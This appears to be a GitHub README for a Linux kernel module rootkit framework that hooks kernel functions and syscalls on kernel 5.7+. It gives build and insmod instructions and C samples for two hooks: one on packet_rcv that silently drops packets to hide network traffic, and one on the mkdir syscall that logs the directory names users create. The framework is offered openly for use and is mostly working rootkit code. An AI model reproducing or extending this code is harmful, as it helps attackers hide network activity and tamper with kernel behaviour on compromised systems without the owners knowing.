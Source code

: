 # LKM Hijacking Framework (under construction)

- a small framework for hooking functions and syscalls for linux kernel module rootkits on linux kernel 5.7+

***tested on:***
```
# uname -a
Linux SniperX-D 5.8.0-48-generic #54~20.04.1-Ubuntu SMP Sat Mar 20 13:40:25 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

to use the rootkit, run:
```sh
make

insmod hooking_test_lkm.ko
```

### example for hiding packets (hooking packet_rcv):

a code sample from src/packet_hide.c:
```c
#include <linux/netfilter.h>
#include "function_hooking.h"

struct hooked_function packet_rcv; //the struct of a hooked function

int fake_packet_rcv(struct sk_buff *skb, struct net_device *dev,struct packet_type *pt, struct net_device *orig_dev)
{
	pr_info("im called! packet_rcv");
	consume_skb(skb); // "hide" the packet
	return 1;
}

int  init_packet_hide(void){
	pr_info("init_packet_hide");
	strcpy(packet_rcv.function_name,"packet_rcv"); //function's name
	packet_rcv.fake_function = &fake_packet_rcv; //fake function address
	hook_function(&packet_rcv); //hook the function
	return 1;
}

int exit_packet_hide(void){
	pr_info("exit_packet_hide");
	reset_function(&packet_rcv); //reset the function to its original state
	return 1;
}
```

### live example:
![Live_example](live_example.gif)

### example for hooking mkdir syscall (source: https://github.com/xcellerator/linux_kernel_hacking/blob/1ce0db23318d73a19e046a36da731e43c42faf41/3_RootkitTechniques/3.1_syscall_hooking/rootkit.c):

a code sample from src/open_hook.c:
```c
#include "syscall_hooking.h"

struct hooked_syscall nr_open;

typedef asmlinkage long (*orig_mkdir_t)(const struct pt_regs *);
orig_mkdir_t orig_mkdir;

asmlinkage int hook_mkdir(const struct pt_regs *regs)
{
    char __user *pathname = (char *)regs->di;
    char dir_name[NAME_MAX] = {0};

    long error = strncpy_from_user(dir_name, pathname, NAME_MAX);

    if (error > 0)
        printk(KERN_INFO "rootkit: Trying to create directory with name: %s\n", dir_name);

    orig_mkdir(regs);
    return 0;
}

int init_open_hook (void){

	nr_open.syscall = __NR_mkdir;
	nr_open.fake_syscall = &hook_mkdir;

	orig_mkdir = (orig_mkdir_t)hook_syscall(&nr_open);
	return 1;
}

int exit_open_hook (void){

	reset_syscall(&nr_open);
	return 1;
}
```

### live example:
![Live_example](live_example2.gif)

